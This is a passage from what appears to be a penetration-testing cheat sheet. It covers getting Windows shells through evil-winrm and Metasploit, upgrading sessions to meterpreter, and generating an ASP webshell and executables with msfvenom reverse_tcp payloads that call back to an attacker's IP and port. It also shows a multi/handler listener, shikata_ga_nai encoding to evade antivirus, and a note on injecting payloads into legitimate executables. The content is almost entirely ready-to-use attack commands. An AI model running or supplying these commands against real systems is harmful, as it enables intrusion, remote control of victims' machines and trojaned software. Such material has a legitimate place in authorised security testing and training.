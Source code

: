 ```
evil-winrm.rb -u <USERNAME> -p "<PASSWORD>" -i <IP>
```

- Get shell with Metasploit
	- Set RPORT if necessary!

```
use exploit/windows/winrm/winrm_script_exec
```

<div style="page-break-after: always;"></div>

# Metasploit
---

- Upgrade a session to meterpreter

```
CTRL + Z
sessions -u <SESSION_NUMBER>
```

Or

```
CTRL + Z
use post/multi/manage/shell_to_meterpreter
```

- Generate ASP webshell
	- Try outputting to .aspx as well

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ATTACKER_IP> LPORT=<ATTACKER_PORT> -f asp > shell.asp
```

```
> service postgresql start && msfconsole
> use multi/handler
> set payload windows/meterpreter/reverse_tcp
> set LHOST <ATTACKER_IP>
> set LPORT <ATTACKER_PORT>
> run
```

- Encode payload (Windows x86, exe, shikata_ga_nai encoded example)

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -e x86/shikata_ga_nai -f exe > <OUTPUT_FILE>
```

You can add iterations to the encoder with `-i <NUMBER_OF_ITERATIONS>`

- Inject payload into an exe
	- Add `-k` to keep the executable's original functionality along with the injected payload, this may or may not work
